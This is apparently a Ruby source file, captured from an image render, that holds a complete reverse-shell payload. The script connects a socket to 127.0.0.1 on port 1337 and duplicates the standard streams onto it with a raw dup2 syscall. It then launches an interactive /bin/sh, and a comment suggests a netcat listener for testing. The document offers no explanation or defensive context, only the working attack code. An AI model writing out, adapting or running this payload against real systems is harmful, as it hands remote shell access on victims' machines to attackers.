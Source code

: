 # Ruby

!/usr/bin/env ruby

syscall 33 = dup2 on 64-bit Linux

syscall 63 = dup2 on 32-bit Linux

test with nc -lvp 1337 

require 'socket'

s = Socket.new 2,1

s.connect Socket.sockaddr_in 1337, '127.0.0.1'

[0,1,2].each { |fd| syscall 33, s.fileno, fd }

exec '/bin/sh -i'
